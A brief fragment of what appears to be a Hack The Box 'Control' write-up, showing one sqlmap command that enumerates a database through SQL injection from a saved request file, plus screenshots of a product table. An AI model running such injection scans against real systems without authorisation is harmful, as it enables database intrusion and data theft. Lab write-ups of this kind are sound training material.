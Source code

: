 Using Sqlmap to enumerate database

```bash
sqlmap -r products.req --risk 3 --level 4 --batch
```

![image.png](/assets/Images/HTB_Control/image%2011.png)

Product Table

![image.png](/assets/Images/HTB_Control/image%2012.png)
